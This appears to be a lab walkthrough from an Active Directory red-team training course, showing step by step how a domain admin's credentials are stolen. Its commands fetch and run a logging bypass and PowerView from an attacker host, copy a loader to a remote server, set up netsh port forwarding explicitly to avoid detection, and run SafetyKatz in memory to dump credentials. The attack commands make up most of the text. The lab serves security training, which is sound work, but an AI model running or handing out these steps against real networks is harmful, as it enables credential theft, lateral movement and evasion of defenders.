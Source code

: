 
---


# Learning Objective - 7
### Flag - Process using svcadmin as service account
```
Invoke-SessionHunter -NoPortScan -RawResults | select Hostname,UserSession,Access
```
- Sweet! There is a domain admin (svcadmin) session on dcorp-mgmt server! We do not have access to the server but that comes later.
**Enumeration using PowerView**
- We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.
- First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged. We could also use these bypasses in the initial download-execute cradle that we used in Jenkins.
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)
```
- Now let's download PowerView
```
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))

Find-DomainUserLocation
```
- Found svcadmin (domain admin) session on dcorp-mgmt server.
**Use winrs to access dcorp-mgmt**
```
winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```
- We would now run SafetyKatz.exe on dcorp-mgmt to extract credentials from it. For that, we need to copy Loader.exe on dcorp-mgmt
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe

echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

```
- Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
- To run SafetyKatz on dcorp-mgmt, we will download and execute it in-memory using the Loader. Run the following command on the reverse shell:
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```
-  We got credentials of svcadmin - a domain administrator
